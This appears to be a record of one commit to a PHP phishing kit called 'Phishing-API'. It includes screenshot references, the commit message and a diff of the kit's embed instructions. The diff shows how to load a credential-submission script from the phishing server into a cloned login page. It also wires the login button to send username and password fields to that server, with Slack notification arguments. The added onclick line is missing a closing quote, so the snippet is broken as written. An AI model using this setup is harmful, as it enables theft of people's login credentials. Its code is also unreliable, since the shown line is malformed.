

Before and after one commit to starling021/Phishing-API, a PHP site: page /index.php?fakesite=1 in a window 1280 px wide. Shown: the part 1746-2382 px from the top of the page, without its empty margins (174-1103 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Added Dynamic Content for Manual Instructions

```diff
--- a/index.php
+++ b/index.php
@@ -212,13 +212,13 @@ textarea {
 <FONT COLOR="#FFFFFF"><H2>OR</H2><br>Use Your Own HTML and Embed the API Tags</FONT><BR><BR>
 <textarea style="text-align:left" class="js-emaillink">
 <!--Add the external script source in the <head> element-->
-<script src="https://YOUR_PHISHAPI_URL.com/APICredentialFormSubmit.js"></script>
+<script src="https://<?php echo $_SERVER['SERVER_NAME'];?>/APICredentialFormSubmit.js"></script>
 
 <!--Change or add an "onclick" attribute to the submit button for the login form and fill out the arguments-->
-<buttom value="Submit!" onclick="SubForm('PhishAPI_URL_HERE','NAME/ID_OF_LOGIN_FORM','PROJECT_NAME','SLACK_BOT_NAME','SLACK_EMOJI','USER_FIELD_NAME/ID','PASS_FIELD_NAME/ID','SOURCE_URL_HERE','CSRF_TOKEN_HERE')">
+<buttom value="Submit!" onclick="SubForm('https://<?php echo $_SERVER['SERVER_NAME'];?>,'NAME/ID_OF_LOGIN_FORM','PROJECT_NAME','SLACK_BOT_NAME','SLACK_EMOJI','USER_FIELD_NAME/ID','PASS_FIELD_NAME/ID','SOURCE_URL_HERE','CSRF_TOKEN_HERE')">
 
 <!--
-PhishAPI_URL_HERE = https://YOUR_PHISHAPI_URL.com (wherever you're hosting the API)
+PhishAPI_URL_HERE = https://<?php echo $_SERVER['SERVER_NAME'];?> (wherever you're hosting the API)
 
 NAME/ID_OF_LOGIN_FORM = Whatever the cloned <form name=""> is set to for the page you cloned
 
```
